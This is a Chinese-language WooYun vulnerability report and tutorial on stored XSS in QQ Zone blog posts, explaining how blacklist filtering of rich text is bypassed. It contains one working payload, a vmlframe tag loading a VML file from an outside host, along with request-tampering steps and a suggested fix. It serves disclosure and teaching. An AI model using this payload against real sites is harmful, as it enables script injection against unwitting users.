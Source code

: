 # 20\. 存储型 XSS 入门 [套现绕过富文本]

> 来源：[20\. 存储型 XSS 入门 [套现绕过富文本]](http://www.wooyun.org/bugs/wooyun-2010-016779)

## 简要描述

很多应用含有富文本内容，这类应用最典型的特征是具有编辑器，例如：博客日志，邮箱等。这类应用往往允许使用一定的 HTML 代码。 为了在用户体验和安全之间寻找平衡，各种厂商可能采用了不尽相同的办法。但是总体来说，有 2 类。

第 1 类我们称为白名单，即：只允许使用白名单内的合法 HTML 标签，例如 IMG。其它均剔除。例如：百度贴吧回帖时候的代码过滤方 式。

第 2 类我们称为黑名单，即：厂商会构建一个有危害的 HTML 标签、属性列表，然后通过分析用户提交的 HTML 代码，剔除其中有害的部 分。 如：QQ 邮箱的发邮件时的过滤方式。

白名单要安全得多，而黑名单的方式则经常会被绕过。

绕过的技巧也有很多，我们可以从最没技术含量的开始说起!! 本节将以 QQ 空间/QQ 校友的日志功能为例来说明，什么是“套现绕过富 文本”！

注意：本节说的“套现”，不是与“钱”有关的；在这里的含义是：“套用现成的 XSS 代码”。

## 详细说明

1\. 新手平时测试 XSS 时，经常会用到`<script>alert(1)</script>`到处插入，看效果。

2\. 这种做法，在某些反射型 XSS，或者你运气好的时候，确实能碰到。但是如果拿到 QQ 空间日志里去插入。嗯，后果一定会很悲壮， 被过滤的毛都没有了。。

3\. 这是为什么呢？因为`<script>`在腾讯的黑名单中，被过滤是理所当然的。

4\. 试想，如果我们找到一个不在腾讯黑名单中的 XSS 代码，岂不是就可以成功在日志里执行 XSS 了么？

5\. 有的人会问了。。哪里去找啊?? 方法有 2 种：

5.1 你足够牛，自己去发现。

5.2 已经有大牛为我们准备了很好的资料，去里面翻。

6\. 我不够牛，所以我只能去大牛的资料里翻咯。

这里我翻的是 @sogili 维护的 [`html5sec.org/`](http://html5sec.org/) ，里面有很多哦

![image](img/Image_109.jpg)

7\. 然后我就开始按照下面的流程慢慢测试。

先进 QQ 空间，发表一个日志，然后编辑日志，同时抓包。

![image](img/Image_110.jpg)

修改抓包内容后，这里修改的是日志内容。提交修改后的数据包！ 然后我们来看看日志里的源代码里，我们提交的 XSS 代码是否被过滤。

![image](img/Image_111.jpg)

8\. 这里我们就不说失败的了，直接说成功的部分。

我们提交以下代码：

```
<vmlframe  style="behavior:url(#default#vml);position:absolute;width:100%;height:100%" src="http://itsokla.duapp.com/shouzi.vml#xss"></vmlframe> 
```

然后看看源代码的输出：

![image](img/Image_112.jpg)

可以看到，这个 XSS 代码完全没过滤。

9\. 我们可以看到 XSS 的效果。鼠标移到日志上，即会触发 XSS 代码。

![image](img/Image_113.jpg)

10.1 使用代码前，先自己在本地试下，是否能执行！搞清楚你所使用的 XSS 代码的原理是什么！

10.2 搞清楚 XSS 代码的适用范围：如：在什么浏览器的什么版本之下才能使用，是否需要用户交互等。

10.3 注意平时对此类代码的搜集与整理。

## 修复方案

过滤 behavior, 和你们修复邮箱里相同问题的方法一样即可。